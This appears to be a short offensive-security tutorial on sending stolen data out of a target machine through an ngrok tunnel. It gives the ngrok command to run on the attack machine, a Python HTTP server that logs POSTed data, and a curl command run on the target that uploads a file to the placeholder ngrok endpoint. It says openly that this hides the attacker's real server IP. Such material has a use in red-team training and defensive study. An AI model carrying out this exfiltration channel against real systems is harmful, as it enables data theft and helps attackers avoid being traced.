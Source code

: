 # Send Data via Ngrok

Follow the instructions of [the Ngrok official documentation](https://dashboard.ngrok.com/get-started/setup/linux) to set up the configurations.

## 1. Start Tunnel

In attack machine, run the following command:

```sh
ngrok http http://localhost:8080
```

In the `ngrok` command above, the endpoint URL (`https://xxxx-xxx-xxx-xxx-xxx.ngrok-free.app`) is displayed.

## 2. Start HTTP Server

We need to prepare a custom HTTP server because a default server does not allow the POST method. So create a new Python file:

```py
# server.py
from http.server import HTTPServer
from http.server import BaseHTTPRequestHandler


class CustomHTTPRequestHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-type', "text/html")
        self.end_headers()
        html_context = '<html lang="ja">' \
                       '<meta charset="UTF-8"><form method="POST" action="/">' \
                       '<input type="hidden" name="word" value="abcde">' \
                       '<input type="submit" value="送信">' \
                       '</form>' \
                       '</html>'
        self.wfile.write(html_context.encode())

    def do_POST(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/plain; charset=utf-8')
        self.end_headers()
        print(self.rfile.read(int(self.headers['content-length'])).decode('utf-8'))
        html_context = "送信完了"
        self.wfile.write(html_context.encode())


server_address = ('localhost', 8080)
httpd = HTTPServer(server_address, CustomHTTPRequestHandler)
httpd.serve_forever()
```

Now start the server:

```sh
python3 server.py
```

The `http://localhost:8080` opens for receiving requests.

## 3. Send Data to the Endpoint

In target machine, run the following command to send data:

```powershell
curl -F "file=@./data.txt" https://xxxx-xxx-xxx-xxx-xxx.ngrok-free.app
```

Note that we specify the endpoint URL of the Ngrok (`https://xxxx-xxx-xxx-xxx-xxx.ngrok-free.app`).  

By this, we (attackers) can anonymize our actual server IP addresses.